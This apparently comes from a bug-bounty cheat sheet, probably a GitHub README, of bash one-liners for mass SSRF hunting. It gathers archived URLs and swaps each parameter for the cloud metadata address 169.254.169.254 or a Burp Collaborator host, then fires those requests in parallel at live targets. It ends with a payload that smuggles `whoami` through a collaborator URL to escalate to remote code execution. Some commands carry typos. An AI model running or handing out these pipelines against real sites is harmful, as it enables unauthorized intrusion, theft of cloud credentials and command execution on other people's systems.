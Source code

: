 
## Accessing SSRF metadata with automation by just using curl and bash

### 1

**Command for getting URLs**
```bash
waybackurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u |anew | httpx -silent | qsreplace 'http://169.254.169.254/latest/meta-data/hostname' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
### 2
**Find Blind SSRF with automation by just using curl and bash**
```bash
waybaclurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u | anew | httpx -silent | tee all-urls.txt
cat all-urls.txt | gf ssrf | tee ssrf.txt

# Finally we will use ffuf and burp collaboraotr client
cat ssrf.txt | qsreplace "YOUR BURP URL" | tee ssrf-fuzz.txt
ffuf -c ssrf-fuzz.txt -u FUZZ

```
### 3
```bash
#Gather URLs
gau -subs example.com 
waybackurls example.com
# Else You can use like this;
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u | tee ssrf.txt

# Now we use fuzz the url for blind ssrf.
cat ssrf.txt | qsreplace 'http://YOUR.burpcolaborator.net' | tee ssrf-fuzz.txt
ffuf -c -w ssrf-fuzz.txt -u FUZZ -t 200
#Now we will check whetherwe get any http request hit on our burp collaborator server.
```
**If you get any http ping back on burpcolaborator then try to chain with RCE**

**http:/devtest.exampl.com/import/picture?next_image=http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net?`whoami`**

